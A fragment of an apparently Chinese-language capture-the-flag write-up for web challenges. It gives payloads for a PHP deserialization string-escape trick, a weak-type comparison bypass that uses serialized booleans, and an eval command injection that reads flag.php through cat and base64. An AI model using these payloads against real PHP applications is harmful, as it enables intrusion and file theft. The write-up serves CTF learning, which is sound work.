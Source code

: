 payload:

?1=easychallengeeasychallengeeasychallengeeasychallengeeasychallengeeasychallengeeasychallenge";s:8:“password”;s:4:“easy”}

**Ezphp**

![图片](img/c39caa01bf506b6fc754b462f6256a92.png)

弱类型比较

bool类型的true跟任意字符串可以弱类型相等。因此我们可以构造bool类型的序列化数据 ，无论比较的值是什么，结果都为true。

payload:

data=a:2:{s:8:“username”;b:1;s:8:“password”;b:1;}

**Babyeval**

Payload:

?a=echo%20`cat%20flag.php|base64`;

![图片](img/1f2ee063466eea3449ab7b37d5807831.png)

解码就可以了

**UN’s_online_tools**

![图片](img/06a12997e8b4d3c0438a8ce3add8a202.png)
